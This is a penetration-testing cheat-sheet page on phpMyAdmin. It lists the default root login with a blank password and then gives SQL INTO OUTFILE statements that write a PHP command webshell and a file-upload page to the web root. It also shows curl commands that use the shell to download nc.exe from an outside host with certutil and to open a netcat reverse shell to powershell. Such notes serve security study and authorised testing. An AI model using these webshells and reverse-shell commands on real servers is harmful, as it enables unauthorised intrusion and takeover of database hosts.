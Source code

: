 ### phpMyAdmin

[phpMyAdmin](https://www.phpmyadmin.net/) is a **browser-based MySQL and MariaDB administration interface** written in PHP. It enables database management without direct command-line interaction by allowing the execution of SQL queries, database creation or deletion, table management, and user privilege modification through a web interface.

```bash
# Default credentials
$ uv run creds search phpmyadmin
+------------+----------+----------+
| Product    | username | password |
+------------+----------+----------+
| phpmyadmin |   root   | <blank>  |
+------------+----------+----------+
```

If the admin account is compromised RCE can be achieved by either creating a webshell directly...

```sql
// Create a webshell
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shell.php';
```

{% code overflow="wrap" %}
```bash
# RCE
$ curl http://127.0.0.1:8080/shell.php?cmd=whoami

# Reverse shell
$ curl "http://127.0.0.1:8080/shell.php?cmd=certutil+-urlcache+-f+http://192.168.118.23/nc.exe+nc.exe"
​
$ curl "http://127.0.0.1:8080/shell.php?cmd=nc.exe+192.168.118.23+445+-e+powershell.exe"
```
{% endcode %}

or by first creating an upload page:

{% code overflow="wrap" %}
```sql
// Create an upload page
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/phpmyadmin_uploader.png" alt=""><figcaption></figcaption></figure>
